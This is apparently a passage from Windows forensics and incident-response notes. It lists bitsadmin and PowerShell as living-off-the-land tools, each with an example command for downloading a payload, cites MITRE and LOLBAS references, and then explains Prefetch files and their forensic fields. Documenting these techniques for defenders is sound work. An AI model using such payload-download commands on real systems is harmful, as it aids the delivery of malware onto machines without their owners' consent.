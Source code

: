 ##### bitsadmin.exe

-   Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: bitsadmin /transfer [job-name] /download /priority normal [URL-to-payload] [output-path]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### powershell.exe

-   Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: powershell -c "(New-Object System.Net.WebClient).DownloadString('https://google.com')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

### References

DLL Search Order Hijacking: <https://attack.mitre.org/techniques/T1038/>

Autoruns: <https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns>

Living off the land tools: <https://github.com/api0cradle/LOLBAS>

Finding Malware with Autoruns:
<https://www.sans.org/reading-room/whitepapers/malicious/paper/33383>

## Prefetch

Prefetch is a performance optimization mechanism used to accelerate the
application startup process. Prefetch is disabled on server systems for
performance reasons. When an application from a particular location for the very
first time, Windows creates a Prefetch file (.pf) for that application. Prefetch
files are then used by the OS to pre-load the stored information from disk into
memory in advance to speed up subsequent boots or application startup.

Prefetch data stored in %SystemRoot%\\Prefetch and is comprised of the following
files:

· NTOSBOOT-B00DFAAD.pf – the system boot prefetch.

· Layout.ini – contains data used by the disk defragmenter.

· AppName-\#\#\#\#\#\#\#\#.pf – an executable file that run at least once. There
are up to 128 prefetch files with the extension .pf maintained by the system.

### Important Fields

· Process Path (Full Path)

· Process Executable Name

· Last Execution Time

· Created Timestamp

· Modified Timestamp

· Accessed Timestamp
